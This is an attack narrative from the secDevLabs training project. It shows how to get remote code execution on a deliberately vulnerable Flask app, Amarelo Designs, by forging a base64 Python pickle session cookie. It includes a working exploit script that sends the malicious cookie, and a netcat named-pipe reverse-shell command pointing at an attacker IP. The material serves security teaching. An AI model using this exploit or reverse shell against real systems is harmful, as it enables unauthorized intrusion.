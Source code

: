 # Attack Narrative - Amarelo Designs
The main goal of this document is to describe how a malicious user could exploit a vulnerability, intentionally installed on Amarelo Designs from secDevLabs, to obtain a blind remote code execution.

If you don't know [secDevLabs] or this [intended vulnerable web application][2] yet, you should check them before reading this narrative.

---
## 👀

It's possible to reach the server's web application from the HTTP port 5000, as shown by the image below:

<img src="attack1.png" align="center"/>

Making use of the [Dirb] tool to search for webpages, we were able to find `/user` and `/admin`, as shown by the picture below:

<p align="center">
    <img src="attack2.png"/>
</p>

When accessed, the `/admin` page exposes an authentication screen, as depicted by the image: 

<p align="center">
    <img src="attack3.png"/>
</p>

## 🔥

A quick test utilizing `admin` as the credentials for the `Username` and `Password` fields gives us acess to an Admin Dashboard, as shown below:

<img src="attack4.png" align="center"/>

Now, using [Burp Suite] as proxy to intercept the login request, we can see that the app returns a session cookie, `sessionId`, as depicted below:

<img src="attack5.png" align="center"/>

After decoding the cookie, which is in base64, the following structure was found:

<img src="attack6.png" align="center"/>

The structure found is very similar to the ones created with the function [Pickle]. We can be certain of that by having a look at the app's code. The hint is now confirmed, the app uses Pickle, as we can see from the image below:


<img src="attack7.png" align="center"/>

If an atacker knew that the app is using Pickle as the serialization method, he could create a malicious cookie to take advantage of it and execute code remotely. An example of the cookie is as shown:

```python
import pickle
import os
import datetime
import uuid
import subprocess
import base64
import sys
import requests

cmd = str(sys.argv[1])
url = str(sys.argv[2])

class Exploit(object):
    def __reduce__(self):
        return (os.system, (cmd, ))

pickle_result = pickle.dumps(Exploit())

result = base64.b64encode(pickle_result)

print result
print cmd
print url

cookie = {'sessionId': result}

print cookie

r = requests.get(url, cookies=cookie)
```

In order to be certain that the app is exploitable, we will send a sleep command to make the app unresposive for 10 seconds. If the app takes 10 seconds to return our request, than it's confirmed, the app is exploitable. As we can see from the image below, the app takes some time to return our request, thus confirming that it is exploitable and confirming the remote code execution: 

<img src="attack9.png" align="center"/>

In order to show how an attacker could have access to the server through an RCE, we will use the code depicted on the image below and an attacker listening on the 9051 port will receive a reverse shell.

<img src="attack10.png" align="center"/>

The code used above creates a named pipe `f` and redirects to it the output of `/bin/sh -i 2>&1|nc 192.168.56.101 9051` and then forwards it to the attacker. As we can see from the image below, the attacker listening on the 9051 port then receives the reverse shell from the server hosting the app.

<p align="center">
    <img src="attack11.png"/>
</p>


[secDevLabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a8/amarelo-designs
[Dirb]: https://tools.kali.org/web-applications/dirb
[Burp Suite]: https://en.wikipedia.org/wiki/Burp_suite
[Pickle]: https://docs.python.org/2/library/pickle.html